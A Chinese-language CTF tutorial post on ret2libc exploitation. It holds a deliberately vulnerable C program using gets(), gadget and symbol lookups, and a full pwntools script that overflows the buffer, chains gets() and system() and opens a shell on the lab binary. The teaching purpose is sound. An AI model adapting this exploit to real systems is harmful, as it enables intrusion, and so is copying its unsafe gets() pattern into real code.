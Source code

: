 ```yaml
---
layout: post
title: ret2libc攻击技术示例-仅有system()情况下输入“/bin/sh”完成函数调用
categories: tutorials
tags: [CTF, pwn, rop]
---
```


## 情景描述

当程序中并没有直接的`"/bin/sh"`字符串时，我们该如何通过ret2libc技术实现`system("/bin/sh")`的执行呢？这时我们就需要借助`gets` `read`之类的函数，读入我们输入的`"/bin/sh"`到缓冲区后，然后依照ret2libc1的套路一样，将`"/bin/sh"`的地址，也就是缓冲区的地址，模拟传入实现函数调用

## 示例代码

``` c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

char buf2[100];

void secure(void)
{
    int secretcode, input;
    srand(time(NULL));

    secretcode = rand();
    scanf("%d", &input);
    if(input == secretcode)
        system("no_shell_QQ");
}

int main(void)
{
    setvbuf(stdout, 0LL, 2, 0LL);
    setvbuf(stdin, 0LL, 1, 0LL);

    char buf1[100];

    printf("Something surprise here, but I don't think it will work.\n");
    printf("What do you think ?");
    gets(buf1);

    return 0;
}
```

本节示例的漏洞程序可以在此处下载： [ret2libc2](http://od7mpc53s.bkt.clouddn.com/ret2libc2)

程序依旧只开启了NX保护
``` bash
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

## 漏洞分析

利用`gets()`函数，我们可以将`"/bin/sh"`写入到buf2中(buf1也可以)，但是这时需要注意，我们要合理设置`gets()`函数执行完后的返回地址，我们要保证函数执行完后依旧返回到rop链的下部分继续执行，因此我们需要一个gadget作为`gets()`返回地址。

这样，当`gets()`读取"/bin/sh"写入到buf中后，将返回到一个gadget上，gadget继续ret可以返回到下一部分，而这部分我们构造为`system("/bin/sh")`，那么这样的rop chain构造合理，我们就可以成功获取一个shell

``` bash
➜  ret2libc2 objdump -dj .plt ret2libc2 | grep -E "gets|system"
08048460 <gets@plt>:
08048490 <system@plt>:
➜  ret2libc2 ROPgadget --binary ret2libc2 --only 'pop|ret'
Gadgets information
============================================================
......
0x0804843d : pop ebx ; ret
......

Unique gadgets found: 7
➜  ret2libc2 readelf -s ret2libc2 | grep buf2
    59: 0804a080   100 OBJECT  GLOBAL DEFAULT   25 buf2
```

## 攻击代码

``` python
from pwn import *

pop_ebp_ret = 0x0804843d
plt_gets = 0x08048460
plt_system = 0x08048490
buf2 = 0x0804a080

payload = 'A' * 112
payload += p32(plt_gets) + p32(pop_ebp_ret) + p32(buf2)
payload += p32(plt_system) + p32(0xdeadbeef) + p32(buf2)

io = process('ret2libc2')
io.sendline(payload)
io.sendline("/bin/sh")
io.interactive()
```
